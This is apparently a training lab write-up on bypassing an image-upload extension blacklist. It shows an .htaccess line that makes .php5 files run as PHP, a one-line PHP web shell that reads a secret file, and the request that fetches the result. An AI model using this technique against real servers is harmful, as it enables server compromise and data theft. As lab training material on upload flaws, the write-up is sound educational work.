### Lab: Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function.
Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

_____

Regular workflow.

1) Login as user wiener
2) Upload file .php results in error "Sorry, php files are not allowed Sorry, there was an error uploading your file"


Exploit

Web server filters uploaded files based on a blacklist of forbidden extensions.
.htaccess is not blacklisted.

1) Login as user wiener
2) Upload file .htaccess (see below) to override default Apache WebServer for the Upload folder

.htaccess: 
`AddType application/x-httpd-php .php5`

3) Upload shell-lab04.php5 to read the content of /home/carlos/secret

shell-lab04.php5:
`<?php echo file_get_contents('/home/carlos/secret'); ?>`

4) Fetch content of the file /home/carlos/secret via GET request to /files/avatars/shell-lab04.php5